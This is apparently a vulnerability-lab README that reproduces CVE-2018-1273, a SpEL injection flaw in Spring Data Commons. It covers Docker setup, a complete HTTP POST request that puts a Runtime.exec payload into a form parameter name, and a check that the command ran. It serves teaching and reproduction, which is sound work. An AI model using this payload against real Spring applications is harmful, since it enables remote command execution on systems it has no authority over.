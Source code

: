 # Spring Data Commons Remote Command Execution Vulnerability (CVE-2018-1273)

Spring Data is an open source framework for simplifying database access and supporting cloud services. Spring Data Commons is the foundation for all subprojects shared under Spring Data. Spring Data Commons In 2.0.5 and earlier, there was a SpEL expression injection vulnerability that could allow an attacker to inject a malicious SpEL expression to execute arbitrary commands.

Reference link:

- https://pivotal.io/security/cve-2018-1273
- https://xz.aliyun.com/t/2269
- https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483666&idx=1&sn=91e3b2aab354c55e0677895c02fb068c

## Environment Building

Execute the following command to start the vulnerability environment:

```
Docker-compose up -d
```

Wait a moment, after the environment starts, visit `http://your-ip:8080/users` and you will see a user registration page.

## Vulnerability recurrence

Refer to the Payload in the previous link to capture the packet at the time of registration and modify it to the following data packet:

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html, application/xhtml+xml, application/xml; q=0.9, image/webp, image/apng, */*; q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN, zh; q=0.9, en; q=0.8

Username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

Execute `docker-compose exec spring bash` into the container, you can see that the successful creation of `/tmp/success`, indicating that the command is executed successfully:

![](1.png)